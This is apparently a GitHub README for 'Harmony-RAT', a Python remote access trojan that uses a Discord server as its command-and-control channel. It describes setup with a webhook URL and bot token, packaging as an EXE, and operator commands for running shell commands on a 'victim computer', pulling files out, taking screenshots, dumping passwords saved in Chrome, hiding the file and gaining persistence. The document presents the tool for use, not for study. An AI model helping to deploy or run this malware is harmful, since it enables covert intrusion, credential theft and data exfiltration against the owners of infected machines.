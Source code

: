 # Harmony-RAT
A simple RAT written in Python that uses Discord as it's C2 server.  


**Features**  
- Full Shell  
- Download files  
- Upload files  
- Screenshot    
- Dump credentials stored in Chrome  
- Persistence  
- And more...


# Usage  
**In your server you MUST create a text channel named 'check-in'  
and create a webhook that posts in the 'check-in' channel**

**You have to enter your Discord servers:**  
* Webhook URL
* Bot Token  
* ServerID  
* executable filename

**Into the script around line 32.**

**If you want an EXE use PyInstaller with harmony.py**  
___
Once harmony is executed it will create a new category on your server named with the hardware ID of the computer that executed it.  


3 channels will also be created in that category:  
&emsp;-main: Use this channel to send commands to the victim computer.  
&emsp;-info: On first run the script will dump useful system information in here.  
&emsp;-creds: On first run the script will dump URL, username and password saved in chrome into here.  

# Commands  

**Commands are used in the main channel in the target category**

To send shell commands prefix the command with '>'.  
&emsp;EX:  
```
> tasklist
# Execute command 'tasklist' and return list of running tasks.

> dir c:\Users\bob\Downloads
# Execute command 'dir c:\Users\bob\Downloads' and return list of files in bobs download directory.
```  
---  
**Non shell commands dont need the '>' symbol**  

---  
**kill**  
Kills process specified by pid.  

EX:  
```
kill 2654
```

---
**hide**  
Adds the hidden attribute to the harmony file.  

**unhide**  
Removes the hidden attribute from the harmony file.  

EX:
```
hide
```
```
unhide
```

---
**download**
Uploads file specified by path to server.

EX:
```
download c:\Users\bob\Downloads\nuclearlaunchcodes.txt
```

---
**upload**
Downloads a file and saves it to c:\Users\Public\Downloads\

type upload and then drag the file you want to upload into discord and send the command.

EX:
![](https://github.com/EvanJosephL/Harmony-RAT/blob/main/pngs/upload_example.gif)  

----
**screenshot**  
Takes a screenshot and uploads it to the server.  

EX:
```
screenshot

# or

ss
```

---
**listWindows**
Lists all open windows.  

EX:
```
listWindows

# or

lw
```

---
**credDump**
Dumps all creds saved in Chrome.

EX:
```
credDump

# or

cred
```

---
**persistence**
Attempts to add persistence

EX:
```
persistence

# or

pt
```
